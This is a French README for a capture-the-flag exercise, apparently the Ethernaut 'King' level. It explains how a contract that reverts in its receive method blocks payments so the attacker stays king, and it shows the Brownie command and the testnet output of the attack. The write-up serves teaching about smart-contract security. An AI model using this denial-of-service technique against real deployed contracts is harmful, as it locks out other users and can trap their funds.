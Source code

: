 # King

## Objectif
L'objectif de ce niveau et de devenir **king** et de le rester.

## Devenir **king**

Pour devenir **king**, il faut utiliser [`receive`](contracts/king.sol#16) et envoyer une somme supérieure à la dernière envoyée.

Les fonds reçus sont [envoyés[(contracts/king.sol#18)] au **king** courant et le changement de **king** opère.

Pour rester **king**, il faut trouver un moyen pour que le transfert échoue.

En utilisant un smart contract qui appelle [`revert` dans sa méthode `receive`](contracts/kingAttack.sol#18), il est possible d'empêcher 'avoir un nouveau **king**

Pour connaitre la somme minimum à envoyer au contrat, nous pouvons lire la valeur du slot d'index 1.

## Exécution du script d'attaque
Afin de pouvoir agir sur la chaine `rinkeby`, il est nécessaire de créer un fichier `.env` contenant la clé de projet [Infura](https://infura.io/) et la valeur de la clé privée du compte utilisé pour le challenge:
```shell
export WEB3_INFURA_PROJECT_ID='AABBCCDD.......'
export PRIVATE_KEY='0xDEADBEEFCACA...'
```

En utilisant la console sur le site d'[ethernaut openzeppelin](https://ethernaut.openzeppelin.com/level/0x43BA674B4fbb8B157b7441C2187bCdD2cdF84FD5) on récupère l'adresse du contrat déployé pour lancer l'attaque ainsi:
```bash
$ brownie run scripts/attack.py main "0x55269622D8528425B94F0e22B885a0CC9c3484F8" --network rinkeby
```
```console
Brownie v1.18.1 - Python development framework for Ethereum

KingProject is the active project.

Running 'scripts/attack.py::main'...
Transaction sent: 0x100ddb7e61a129b0cf08f84b3623897db2dac1fa39de042ffbc1be0842d1043c
  Gas price: 1.000000024 gwei   Gas limit: 167615   Nonce: 246
  KingAttack.constructor confirmed   Block: 10481104   Gas used: 152378 (90.91%)
  KingAttack deployed at: 0xa7A488c45Bae6045593A0D86871bBd153E135C77

Value: 1000000000000000
King: 0x43BA674B4fbb8B157b7441C2187bCdD2cdF84FD5
Transaction sent: 0x0ab4477f31e6527421406a9e5e5fd7a3680de36cd07ee006e2f43c47acc97e27
  Gas price: 1.000000024 gwei   Gas limit: 56094   Nonce: 247
  KingAttack.forward confirmed   Block: 10481105   Gas used: 50808 (90.58%)

King: 0xa7A488c45Bae6045593A0D86871bBd153E135C77
```





